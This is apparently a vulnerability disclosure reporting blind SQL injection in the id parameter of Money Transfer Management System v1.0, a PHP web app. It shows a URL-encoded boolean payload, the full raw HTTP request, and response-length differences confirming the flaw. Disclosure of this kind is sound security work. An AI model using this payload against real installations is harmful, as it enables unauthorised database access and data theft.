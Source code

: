 # Money Transfer Management System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html

Vulnerability File: /mtms/admin/?page=transaction/send&id=

Vulnerability location: /mtms/admin/?page=transaction/send&id=, id

[+] Payload: /mtms/admin/?page=transaction/send&id=1%27%20and%20length(database())%20=7%20--+ // Leak place ---> id

Current database name: mtms_db,length is 7

```sql
GET /mtms/admin/?page=transaction/send&id=1%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bnvs2lhahed1884v0nf12nt52s
Connection: close
// Leak place ---> id
```

When length (database ()) = 7, Content-Length: 33302
![image](https://user-images.githubusercontent.com/54017627/164714728-5381af3d-25e4-4521-8afd-b47085d8100a.png)


When length (database ()) = 8, Content-Length: 33339
![image](https://user-images.githubusercontent.com/54017627/164715254-7bf56ab7-e226-4160-b17b-edb10e77bf5b.png)

